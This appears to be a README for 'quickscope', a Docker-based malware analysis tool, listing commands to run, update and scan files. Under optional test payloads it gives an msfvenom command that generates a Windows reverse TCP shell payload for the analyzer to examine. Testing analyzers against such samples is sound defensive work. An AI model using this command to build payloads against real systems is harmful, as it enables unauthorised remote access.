 <H3>ALL IN ONE MALWARE ANALYSIS (STATIC AND DYNAMIC)</H3>
tuts: https://youtu.be/5Z4QXIDQVyE?si=UXykY_vxrarTooxw&t=646

**RUN**
`docker run -it --rm -v ~/www/:/data quickscope:latest

**HELP**
`docker run -it --rm -v ~/www/:/data quickscope:latest -h`

**UPDATE**
`docker run -it --rm -v ~/www/:/data quickscope:latest --db_update`

**SCAN**
`docker run -it --rm -v ~/www/:/data quickscope:latest --file <file/to/scan.exe> --analyze`

---

**NOTE**
IF YOU ADDED SOME MODIFICATIONS, 
YOU HAVE TO REBUILD THE CONTAINER BEFORE USING IT

---
**TEST PAYLOADS (OPTIONAL)**

basic windows (bin)
`msfvenom -p windows/x64/shell/reverse_tcp lhost=wlan lport=9443 -f raw -o basic.bin`


